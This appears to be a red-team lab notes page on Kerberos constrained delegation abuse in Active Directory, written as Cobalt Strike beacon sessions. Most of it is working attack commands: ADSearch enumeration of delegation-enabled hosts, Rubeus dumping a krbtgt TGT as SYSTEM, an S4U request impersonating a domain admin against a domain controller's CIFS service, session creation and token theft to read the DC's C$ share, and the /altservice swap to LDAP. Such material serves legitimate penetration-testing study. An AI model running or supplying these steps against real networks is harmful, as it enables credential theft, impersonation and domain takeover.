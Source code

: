 # Constrained Delegation



## Introduction

Constrained delegation is a safer means for services to perform Kerberos delegation (act on their behalf). Constrained delegation aims to restrict the services to which the server can act on behalf of the user. It no longer allows the server to cache TGTs of other users. But it does allow it to request a TGS for another user (using it's own TGT).



## Enumerate hosts configured for constrained delegation

```sh
beacon> execute-assembly C:\ToolsADSearch.exe --search 
"(&(objectCategory=computer)(msds-allowedtodelegateto=*))" 
--attributes dnshostname,samaccountname,msds-allowedtodelegateto --json

[*] TOTAL NUMBER OF SEARCH RESULTS: 1
msds-allowedtodelegateto (what we're looking for)
...
```



## Perform Delegation

To perform the delegation, we need the TGT of the principal (computer or user) trusted for delegation.  The most direct way is to extract it with Rubeus `dump`:

<mark style="color:yellow;">**Technique**</mark>:   We can also request one with Rubeus `asktgt` if you have NTLM or AES hashes.



### Dump TGT

```sh
beacon> run hostname
sql-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\Rubeus.exe triage
 --------------------------------------------------------------------------------------------------------------- 
 | LUID    | UserName                    | Service                                       | EndTime              |
 --------------------------------------------------------------------------------------------------------------- 
  (LUID is what we need)                  (We what the LUID for krbtgt service)
  
beacon> execute-assembly C:\Tools\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

```

### Get TGT

With the TGT, perform an S4U request to obtain a usable TGS. We want someone who we know to be a local admin on the target.  In this case, a domain admin makes the most sense.

This will perform an S4U2Self first and then an S4U2Proxy.&#x20;

```sh
beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe s4u 
/impersonateuser:cfoxy /msdsspn:cifs/dc-2.rotta.lab 
/user:sql-2$ /ticket:<ticket-from-dump> /nowrap

[*] Action: S4U

Success!
```

where:

* `/impersonateuser` is the user we want to impersonate. MUST BE LOCAL DOMAIN ADMIN to the host.
* `/msdsspn` is the service principal name that SQL-2 is allowed to delegate to.
* `/user` is the principal allowed to perform the delegation that we dumped a ticket for.
* `/ticket` is the TGT for `/user`.

### Create New Login Session

<mark style="color:red;">**Note**</mark>**:** Make sure to always use the FQDN. Otherwise, you will see 1326 errors.

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly 
/program:C:\Windows\System32\cmd.exe /domain:ROTTA /username:cfoxy /password:Password123! /ticket:<ticket>

beacon> steal_token 5540

beacon> ls \\dc-2.rotta.lab\c$
```

##

## Alternate Service Name

## Rubeus /altservice

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe s4u /impersonateuser:cfoxy 
/msdsspn:cifs/dc-2.rotta.lab /altservice:ldap /user:sql-2$ /ticket:<ticket> /nowrap

[*] Action: S4U

...


beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:ROTTA /username:cfoxy 
/password:Password123! /ticket:<ticket>

[+] ProcessID       : 2580
[+] Ticket successfully imported!

...

beacon> steal_token 2580
```
